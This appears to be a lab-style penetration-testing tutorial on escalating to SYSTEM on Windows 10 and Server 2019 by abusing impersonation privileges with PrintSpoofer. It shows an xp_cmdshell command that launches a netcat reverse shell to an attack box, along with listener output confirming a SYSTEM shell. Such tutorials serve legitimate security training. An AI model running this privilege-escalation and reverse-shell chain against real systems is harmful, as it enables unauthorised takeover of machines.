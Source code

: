 * * *

## PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

#### Escalating Privileges using PrintSpoofer

Let's try this out using the `PrintSpoofer` tool. We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command. Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```shell
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```

#### Catching Reverse Shell as SYSTEM

If all goes according to plan, we will have a SYSTEM shell on our netcat listener.

```shell
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system

```
